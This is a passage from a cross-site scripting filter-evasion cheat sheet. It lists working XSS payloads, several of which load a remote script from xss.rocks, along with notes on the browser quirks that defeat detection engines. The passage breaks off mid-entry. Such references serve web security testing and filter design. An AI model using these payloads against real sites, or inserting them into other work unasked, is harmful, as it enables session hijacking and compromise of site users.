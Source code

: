     `<SCRIPT/XSS SRC="http://xss.rocks/xss.js"></SCRIPT>`

Based on the same idea as above, however,expanded on it, using Rnake
fuzzer. The Gecko rendering engine allows for any character other than
letters, numbers or encapsulation chars (like quotes, angle brackets,
etc...) between the event handler and the equals sign, making it easier
to bypass cross site scripting blocks. Note that this also applies to
the grave accent char as seen here:

    ``<BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert("XSS")>``

Yair Amit brought this to my attention that there is slightly different
behavior between the IE and Gecko rendering engines that allows just a
slash between the tag and the parameter with no spaces. This could be
useful if the system does not allow spaces.

    `<SCRIPT/SRC="http://xss.rocks/xss.js"></SCRIPT>`

## Extraneous open brackets

Submitted by Franz Sedlmaier, this XSS vector could defeat certain
detection engines that work by first using matching pairs of open and
close angle brackets and then by doing a comparison of the tag inside,
instead of a more efficient algorythm like Boyer-Moore that looks for
entire string matches of the open angle bracket and associated tag (post
de-obfuscation, of course). The double slash comments out the ending
extraneous bracket to supress a JavaScript error:

    `<`

    <SCRIPT>

    alert("XSS");//\<

    </SCRIPT>

## No closing script tags

In Firefox and Netscape 8.1 in the Gecko rendering engine mode you don't
actually need the "\>

    </SCRIPT>

" portion of this Cross Site Scripting vector. Firefox assumes it's safe
to close the HTML tag and add closing tags for you. How thoughtful\!
Unlike the next one, which doesn't effect Firefox, this does not require
any additional HTML below it. You can add quotes if you need to, but
they're not needed generally, although beware, I have no idea what the
HTML will end up looking like once this is injected:

    `<SCRIPT SRC=http://xss.rocks/xss.js?< B >`

## Protocol resolution in script tags

This particular variant was submitted by Łukasz Pilorz and was based
partially off of Ozh's protocol resolution bypass below. This cross site
scripting example works in IE, Netscape in IE rendering mode and Opera
if you add in a
